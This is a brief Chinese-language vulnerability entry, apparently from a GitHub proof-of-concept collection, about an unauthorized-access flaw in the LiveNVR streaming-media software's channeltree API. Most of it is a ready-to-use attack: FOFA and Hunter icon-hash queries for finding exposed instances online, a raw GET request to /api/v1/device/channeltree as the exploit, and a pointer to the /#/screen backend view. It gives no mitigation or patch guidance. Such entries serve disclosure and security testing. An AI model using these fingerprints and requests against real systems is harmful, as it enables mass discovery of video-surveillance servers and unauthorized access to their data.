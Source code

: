 # LiveNVR流媒体服务软件接口存在未授权访问漏洞

livenvr 青柿视频管理系统 channeltree 存在未授权访问漏洞。

## fofa

```yaml
icon_hash="-206100324" 
```

## hunter

```yaml
web.icon=="7bfff01de80c14288ff385cd7db83c56"
```

## poc

```yaml
GET /api/v1/device/channeltree?serial=&pcode HTTP/1.1
Host: 
```

![image-20240719130739033](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191307146.png)

接口访问` /#/screen ` 可以看到后台信息了

![image-20240719130703174](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191307314.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/whXXvwzZpfj19B7unFCrjg